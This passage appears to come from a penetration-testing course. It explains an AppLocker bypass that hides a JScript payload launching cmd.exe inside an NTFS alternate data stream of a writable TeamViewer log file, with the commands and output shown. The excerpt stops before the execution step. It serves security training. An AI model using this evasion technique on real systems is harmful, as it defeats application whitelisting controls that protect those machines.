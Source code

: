 So far, we have demonstrated various ways of bypassing AppLocker if the rules are not appropriately configured. In this section, we'll work through a slightly more advanced bypass that abuses a feature of the Windows file system itself.

Th modern Windows file system is based on the _NTFS_[1](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_354-1) specification, which represents all files as a stream of data.[2](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_354-2) While the inner workings of NTFS are complex, for the purposes of this module, it's important to simply understand that NTFS supports multiple streams.

An _Alternate Data Stream_ (_ADS_) is a binary file attribute that contains metadata. We can leverage this to append the binary data of additional streams to the original file.

To demonstrate this, we'll create the small Jscript file shown in Listing 5:

```
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```

> Listing 5 - Simple Jscript proof of concept

We'll save this as test.js in the student user's home directory. Since we have AppLocker scripting rules in place, we cannot execute it in its current location. However, if we can find a file in a trusted location that is both writable and executable, we could write the contents of this script to an alternate data stream inside that file and execute it, bypassing AppLocker.

For example, TeamViewer version 12, which is installed on the Windows 10 victim machine, uses a log file (TeamViewer12\_Logfile.log) that is both writable and executable by the student user. We can use the native type[3](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_354-3) command to copy the contents of test.js into an alternate data stream of the log file with the : notation:

```
C:\Users\student>type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

> Listing 6 - Copying the contents of test.js into an ADS of the log file

We'll use dir /r to verify that the Jscript code was written to the alternate data stream:

```
C:\Users\student>dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
 Volume in drive C has no label.
 Volume Serial Number is 305C-7C84

 Directory of C:\Program Files (x86)\TeamViewer

03/09/2020  08:34 AM            32,489 TeamViewer12_Logfile.log
                                    79 TeamViewer12_Logfile.log:test.js:$DATA
               1 File(s)         32,489 bytes
               0 Dir(s)     696,483,840 bytes free
```

> Listing 7 - Verifying the ADS section with dir
